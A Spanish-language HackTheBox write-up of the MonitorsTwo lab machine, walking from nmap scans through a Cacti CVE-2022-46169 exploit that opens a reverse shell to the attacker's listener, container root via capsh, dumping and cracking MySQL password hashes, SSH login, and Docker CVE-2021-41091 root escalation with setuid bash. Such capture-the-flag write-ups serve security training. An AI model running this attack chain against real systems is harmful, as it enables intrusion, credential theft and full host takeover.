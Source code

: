 ```yaml
---
title: MonitorsTwo HTB Writeup
published: 2023-04-07
description: 'Explotamos un CACTI con el CVE-2022-46169 mediante un Script de Python, mas adelante CVE-2021-41091 Para Escalar Priv.'
image: './img/1.png'
tags: [Easy, Linux]
category: 'HackTheBox'
draft: false 
---
```


# Initial Recon

Comprobamos la conexión con la máquina víctima:

```bash
> ping -c 1 10.10.11.211 
PING 10.10.11.211 (10.10.11.211) 56(84) bytes of data.
64 bytes from 10.10.11.211: icmp_seq=1 ttl=63 time=264 ms

--- 10.10.11.211 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 263.775/263.775/263.775/0.000 ms
```

Ejecutamos nuestro escaneo con nmap:

```bash
> nmap -sS -p- --open --min-rate 2000 -Pn -n 10.10.11.211 -oG scan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-02 22:35 AST
Nmap scan report for 10.10.11.211
Host is up (0.088s latency).
Not shown: 61122 closed tcp ports (reset), 4411 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 37.45 seconds
```

```bash
> nmap -p22,80 -sVC 10.10.11.211                                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-02 22:37 AST
Nmap scan report for 10.10.11.211 (10.10.11.211)
Host is up (0.077s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.67 seconds
```

# Web

![alt text](./img/2.png)

Escaneé el sistema para la etapa de enumeración con nmap, dirb, traceroute, view page source, etc. pero nada útil. Después de comprobar el directorio donde dirb encontró el punto final /document, pasar algún tiempo en él, pero nada cambia, a continuación, iniciar la comprobación de las vulnerabilidades de la interfaz web de cactus y aquí vamos.
Cacti CVE

https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

![alt text](./img/3.png)

Después de ver la forma correcta de utilizar el exploit, lo ejecutamos.

Escuchamos en el puerto 443:

```bash
nc -nlvp 443
```

```bash
> python3 CVE-2022-46169.py  -u http://10.10.11.211 --LHOST=10.10.14.29 --LPORT=443 
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

![alt text](image.png)

## LinEnum

Ahora vamos a ver posibles formas de elevar privilegios, usaremos LinEnum para tener más información.

En nuestro resultado encontramos esto:

![alt text](image-1.png)

Aprovechamos para elevar nuestro privilegio.
Binario capsh

Lo ejecutamos dentro del directorio /sbin/:

```bash
./capsh --gid=0 --uid=0 --
```

here you have more information about this –> capsh

![alt text](image-2.png)

Parece que estamos en un contenedor docker, así que vamos a intentar ver el contenido de una base de datos que encontramos antes:

## Run Mysql to find credentials

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```

![alt text](image-3.png)

En el usuario marcus tenemos un hash, usaremos john para ver cual es.
Cracking Password con john

Lo guardamos en un archivo h.txt y lo ejecutamos:

```bash
john h.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![alt text](image-4.png)

## SSH Conect

Nos conectamos a través de SSH

```bash
ssh marcus@10.10.11.211
```

# Privilege Escalation

Tras ejecutar LinEnum de nuevo, vemos que la máquina aloja un docker:

```bash
marcus@monitorstwo:~$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

## CVE-2021-41091

Después de buscar en Internet hemos encontrado un exploit. CVE-2021-41091

Pasamos el exploit a nuestra máquina víctima.

Vamos al contenedor docker que previamente teníamos como root:

```bash
cd /bin
```

Asignamos estos permisos a bash.

```bash
chmod u+s /bin/bash
```

Ahora ejecutamos el exploit en la máquina víctima.

![alt text](image-5.png)

Entramos en la ruta indicada por el exploit y lo ejecutamos:

```bash
./bin/bash -p
```